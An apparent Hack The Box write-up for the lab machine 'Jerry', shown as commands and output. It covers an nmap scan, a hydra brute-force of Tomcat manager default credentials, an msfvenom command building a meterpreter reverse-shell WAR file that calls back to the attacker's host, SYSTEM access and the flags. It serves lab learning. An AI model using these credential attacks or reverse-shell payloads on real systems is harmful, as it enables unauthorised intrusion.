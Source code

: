 ```yaml
---
layout: post
title: "HTB Writeup - Jerry"
date: 2019-12-15 12:59:50 +0000
---
```


# HTB writeup - Jerry
<br />
Let's start with the usual scan:
```
root@kali:~# nmap -sC -sV 10.10.10.95
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-15 17:08 CET
Nmap scan report for 10.10.10.95
Host is up (0.045s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```
<img src="/assets/jerry/jerry1.png" alt="drawing" width="600"/>

I tried accessing the manager page, however the default admin:admin didn't work. I therefore ran hydra with the dictionary specifically for default password:
```
root@kali:~# hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-12-15 17:24:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-12-15 17:24:21
```
With the creds hydra found, I was able to login to the restricted area /manager/:
<img src="/assets/jerry/jerry2.png" alt="drawing" width="600"/>
<br />
As we can see, we can upload our own malicious war file to get a shell.
Let's generate it with meterpreter:
```
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=9001  --format war -o reverse.war
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of war file: 2469 bytes
Saved as: reverse.war

msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.22:9001 
```
<br />
After having deployed the file, we got a meterpreter session back. 
<br />
We didn't even have to do any privesc since we were already administrator:
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
I went to Users\Administrator\Desktop\flags to collect user and root.txt:
```
C:\Users\Administrator\Desktop\flags>more "2 for the price of 1.txt"
more "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

